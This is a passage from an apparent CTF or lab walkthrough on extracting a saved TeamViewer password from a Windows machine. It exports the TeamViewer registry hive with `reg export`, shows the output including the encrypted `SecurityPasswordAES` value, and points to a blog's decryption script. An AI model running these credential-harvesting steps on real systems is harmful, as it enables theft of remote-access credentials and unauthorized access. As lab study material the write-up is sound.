 So I wanted to do the `Teamviewer` method without the `msf` module. For this all we have to do is dump the registry keys of `Teamviewer` and then use the python script in [this blog](https://whynotsecurity.com/blog/teamviewer/) to decrypt it.

1. Dump the registry value of `TeamViewer` using `reg`.

    ```bash
    PS C:\Users\Public> reg export HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer team.reg
    reg export HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer team.reg
    The operation completed successfully.
    ```
2. Copy the registry file and open it to get the AES password

    ```bash
    Windows Registry Editor Version 5.00

    [HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer]

    [HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7]
    "StartMenuGroup"="TeamViewer 7"
    "InstallationDate"="2020-02-20"
    "InstallationDirectory"="C:\\Program Files (x86)\\TeamViewer\\Version7"
    "Always_Online"=dword:00000001
    "Security_ActivateDirectIn"=dword:00000000
    "Version"="7.0.43148"
    "ClientIC"=dword:11f25831
   ---------------------------------Output Snipped---------------------------------
   
    "LastMACUsed"=hex(7):00,00,30,00,30,00,35,00,30,00,35,00,36,00,42,00,39,00,32,\
      00,30,00,35,00,39,00,00,00,00,00
    "MIDInitiativeGUID"="{514ed376-a4ee-4507-a28b-484604ed0ba0}"
    "MIDVersion"=dword:00000001
    "ClientID"=dword:6972e4aa
    "CUse"=dword:00000001
    "LastUpdateCheck"=dword:5e72893c
    "UsageEnvironmentBackup"=dword:00000001
    "SecurityPasswordAES"=hex:ff,9b,1c,73,d6,6b,ce,31,ac,41,3e,ae,13,1b,46,4f,58,\
      2f,6c,e2,d1,e1,f3,da,7e,8d,37,6b,26,39,4e,5b
    "MultiPwdMgmtIDs"=hex(7):61,00,64,00,6d,00,69,00,6e,00,00,00,00,00
    "MultiPwdMgmtPWDs"=hex(7):33,00,35,00,37,00,42,00,43,00,34,00,43,00,38,00,46,\
      00,33,00,33,00,31,00,36,00,30,00,36,00,38,00,32,00,42,00,30,00,31,00,41,00,\
      45,00,32,00,44,00,31,00,43,00,39,00,38,00,37,00,43,00,33,00,46,00,45,00,32,\
      00,42,00,41,00,45,00,30,00,39,00,34,00,35,00,35,00,42,00,39,00,34,00,41,00,\
      31,00,39,00,31,00,39,00,43,00,34,00,43,00,44,00,34,00,39,00,38,00,34,00,35,\
      00,39,00,33,00,41,00,37,00,37,00,00,00,00,00
    "Security_PasswordStrength"=dword:00000003

    [HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\AccessControl]
    "AC_Server_AccessControlType"=dword:00000000

    [HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\DefaultSettings]
    "Autostart_GUI"=dword:00000001
    ```
    The value we require is `SecurityPasswordAES`.
3. Use the python script to decrypt the key
